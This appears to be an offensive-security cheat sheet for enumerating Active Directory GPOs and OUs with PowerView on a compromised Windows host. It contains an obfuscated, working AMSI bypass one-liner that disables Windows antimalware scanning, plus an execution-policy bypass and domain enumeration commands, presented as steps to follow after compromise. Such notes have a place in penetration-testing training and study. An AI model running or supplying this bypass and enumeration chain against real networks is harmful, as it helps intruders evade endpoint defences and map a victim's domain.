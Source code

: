 # GPO and OU Enumeration

## PowerView
Import PowerView to the compromised host and run the following commands


`powershell -ep bypass`

Bypass AMSI with this PowerShell command.

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Import the script

`. .\powerview.ps1`



Group Policy Object and Organziational Units enumeration with PowerView

`Get-DomainGPO`

`Get-DomainGPO | select displayname`

`Get-DomainGPO | select name`

See what GPOs your host has

`hostname`

`Get-DomainGPO -ComputerName <HOSTNAME>`

`Get-DomainGPO -ComputerName web`

`Get-ForestGlobalCatalog`

Check domain's OUs

`Get-DomainOU`

